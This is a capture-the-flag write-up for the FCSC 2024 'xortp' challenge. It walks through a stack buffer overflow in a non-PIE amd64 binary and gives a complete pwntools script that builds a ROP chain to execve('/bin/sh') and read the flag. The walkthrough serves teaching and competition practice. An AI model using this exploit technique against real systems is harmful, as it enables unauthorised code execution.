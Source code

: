 title: "FCSC 2024 - Challenge Xortp"
date: 2024-04-27
tags: ["Pwn"]
categories: ["Pwn"]
ctfs: ["fcsc"]

# Writeup: xortp

## Challenge Overview

This challenge involves exploiting a buffer overflow vulnerability in the "xortp" binary to gain a shell and read the flag. The exploit leverages Return-Oriented Programming (ROP) to bypass modern security protections.

## Binary Analysis

The binary has the following protections:
- Architecture: amd64-64-little
- RELRO: Partial RELRO
- Stack: Canary found
- NX: NX enabled (No execution on stack)
- PIE: No PIE (fixed base address at 0x400000)
- Not stripped

The key vulnerability appears to be a buffer overflow that allows overwriting the return address despite stack canaries being enabled.

## Vulnerability and Exploitation

The vulnerability is a classic buffer overflow where we can overwrite the return address. Since NX is enabled, we cannot directly execute shellcode on the stack. Instead, we use ROP to chain together existing code fragments (gadgets) to execute a system call.

### Exploitation Strategy

1. Overflow the buffer to control the instruction pointer  
2. Build a ROP chain to execute `execve("/bin/sh", 0, 0)` syscall  
3. Get a shell and read the flag  

---

### 🔧 Syscall Calling Convention Reference

| Architecture      | Syscall Number Reg | Argument 1 | Argument 2 | Argument 3 | Argument 4 | Argument 5 | Argument 6 | Return Value | Instruction |
|------------------|--------------------|------------|------------|------------|------------|------------|------------|---------------|-------------|
| **x86 (32-bit)** | `eax`              | `ebx`      | `ecx`      | `edx`      | `esi`      | `edi`      | `ebp`      | `eax`         | `int 0x80`  |
| **x86_64**       | `rax`              | `rdi`      | `rsi`      | `rdx`      | `r10`      | `r8`       | `r9`       | `rax`         | `syscall`   |
| **ARM (32-bit)** | `r7`               | `r0`       | `r1`       | `r2`       | `r3`       | `r4`       | `r5`       | `r0`          | `svc 0`     |
| **ARM64**        | `x8`               | `x0`       | `x1`       | `x2`       | `x3`       | `x4`       | `x5`       | `x0`          | `svc 0`     |

This table is especially useful in ROP-based attacks where we construct a syscall manually by populating the appropriate registers using gadgets.

---

### ROP Chain Details

Our goal is to execute the `execve` syscall (syscall number 59) with the following arguments:
- `rdi` = pointer to "/bin/sh" string (first argument)
- `rsi` = 0 (second argument - argv, set to NULL)
- `rdx` = 0 (third argument - envp, set to NULL)
- `rax` = 59 (syscall number for execve)

We use the following ROP gadgets:
```
pop_rdi = 0x0000000000401f60       # Control first argument
pop_rsi = 0x000000000040f972       # Control second argument
pop_rax_rdx_rbx = 0x00000000004867a6  # Control syscall number and third argument
syscall_gadget = 0x00000000004011a2  # Execute the syscall
```

The string "/bin/sh" was found at address 0x00498213 in the binary.

### Buffer Size

The required padding before reaching the return address is 152 bytes.

## Exploit Implementation

The exploit script uses pwntools to construct and send the payload:

```python
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('xortp')

# ROP gadgets
pop_rax = 0x00000000004424f7   
pop_rsi = 0x000000000040f972   
pop_rdi = 0x0000000000401f60   
pop_rax_rdx_rbx = 0x00000000004867a6  
syscall_gadget = 0x00000000004011a2  

addr_bin_sh = 0x00498213          

# Connect to the process
io = process('./xortp')  # or remote("host", port)

# Syscall parameters for execve("/bin/sh", 0, 0)
path = addr_bin_sh    # First argument: path to binary
argv = 0              # Second argument: argument array (NULL)
envp = 0              # Third argument: environment variables (NULL)
syscall_num = 59      # Syscall number for execve

BUFFER = 152  # Size of buffer before return address

# Construct the payload
payload = flat(
    b'A'*BUFFER,      # Padding to reach return address
    p64(pop_rdi),     # Pop path into RDI (first argument)
    p64(path),        # Address of "/bin/sh" string
    p64(pop_rsi),     # Pop 0 into RSI (second argument)
    p64(argv),        # NULL for argv
    p64(pop_rax_rdx_rbx),  # Pop syscall number into RAX and third argument into RDX
    p64(syscall_num), # Syscall number for execve (59)
    p64(envp),        # NULL for envp (third argument)
    p64(0),           # Dummy value for RBX
    p64(syscall_gadget)  # Execute the syscall
)

# Send the payload
io.sendline(payload)
io.sendline("id && cat flag.txt")  # Run commands in the obtained shell
io.interactive()
```

## Execution Flow

1. We send a payload that fills the buffer with 152 'A's to reach the return address  
2. The ROP chain is executed:  
   - `pop_rdi` gadget pops the address of "/bin/sh" into RDI  
   - `pop_rsi` gadget pops 0 into RSI  
   - `pop_rax_rdx_rbx` gadget pops 59 into RAX (syscall number), 0 into RDX, and a dummy value into RBX  
   - `syscall_gadget` executes the syscall, which runs execve("/bin/sh", 0, 0)  
3. We now have a shell and can read the flag with `cat flag.txt`  

## Flag

After gaining the shell, we can read the flag with `cat flag.txt` command.

## Conclusion

This challenge demonstrates a classic ROP-based exploitation technique to bypass NX protection. By chaining together existing code gadgets, we can execute arbitrary system calls without injecting executable code onto the stack.